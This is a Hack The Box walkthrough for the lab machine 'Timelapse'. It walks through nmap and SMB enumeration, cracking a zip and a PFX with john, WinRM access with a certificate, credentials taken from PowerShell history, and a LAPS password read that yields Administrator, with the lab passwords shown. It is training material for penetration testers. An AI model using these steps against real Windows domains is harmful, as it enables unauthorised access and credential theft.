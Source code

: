 ## HTB: Timelapse Walkthrough

# 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)

### Recon
- **Nmap Scan:**
  - Found 18 open ports including: SMB (445), [Kerberos](Kerberos) (88), [LDAP](LDAP) (389), and [WinRM](WinRM) (5986)
  - Domain: `timelapse.htb`
  - Hostname: `dc01.timelapse.htb`

```bash
nmap -p- --min-rate 10000 10.10.11.152
nmap -p <interesting_ports> -sCV 10.10.11.152
```

- **/etc/hosts Addition:**
```
10.10.11.152 timelapse.htb dc01.timelapse.htb
```

### [SMB](SMB) Enumeration
- SMB anonymous login was successful:
```bash
smbclient -L //dc01.timelapse.htb -N
```
- Notable share: `Shares`
  - Found file: `winrm_backup.zip`
  - Found LAPS documentation in `HelpDesk`

### Shell as `legacyy`
- **Extracted `winrm_backup.zip` → `legacyy_dev_auth.pfx`**
- **Cracked zip password using john:** `supremelegacy`
- **Cracked PFX password using pfx2john + john:** `thuglegacy`
- **Extracted cert & private key:**
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key-enc.pem
openssl rsa -in key-enc.pem -out legacyy_dev_auth.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```
- **Connected using Evil-WinRM:**
```bash
evil-winrm -i timelapse.htb -S -c legacyy_dev_auth.crt -k legacyy_dev_auth.key
```
- Grabbed `user.txt`

### Shell as `svc_deploy`
- **Found PowerShell history file:**
```powershell
C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Credentials found:**
  - `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`
- **Connected with Evil-WinRM:**
```bash
evil-winrm -i timelapse.htb -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

### Shell as Administrator
- `svc_deploy` is a member of the `LAPS_Readers` group.
- Queried LAPS for DC01 local admin password:
```powershell
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
- Found password: `uM[3va(s870g6Y]9i]6tMu{j`
- Connected as Administrator:
```bash
evil-winrm -i timelapse.htb -S -u administrator -p 'uM[3va(s870g6Y]9i]6tMu{j'
```

### Root.txt
- `root.txt` not in Administrator desktop.
- Found under `C:\Users\TRX\Desktop\root.txt`

### Notes
- TRX account exists for HTB flag rotation purposes due to dynamic nature of LAPS.
